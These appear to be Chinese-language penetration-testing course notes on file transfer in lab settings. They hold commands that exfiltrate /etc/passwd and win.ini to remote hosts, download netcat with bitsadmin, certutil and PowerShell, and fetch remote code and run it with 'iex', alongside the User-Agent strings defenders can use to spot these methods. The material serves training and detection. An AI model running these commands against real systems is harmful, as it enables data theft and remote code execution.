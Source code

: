 ```shell-session
ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
systemctl restart nginx.service
```

错误日志/var/log/nginx/error.log，默认启用在80端口

```
rm /etc/nginx/sites-enabled/default
```

```
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

## 5.6 二进制文件

```
certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

```
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

```powershell-session
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

## 5.7 检测技术

1.Invoke-WebRequest

```powershell-session
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"

User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0

```

2. WinHttpRequest 

```powershell-session
$h=new-object -com WinHttp.WinHttpRequest.5.1;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.ResponseText

User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)

```
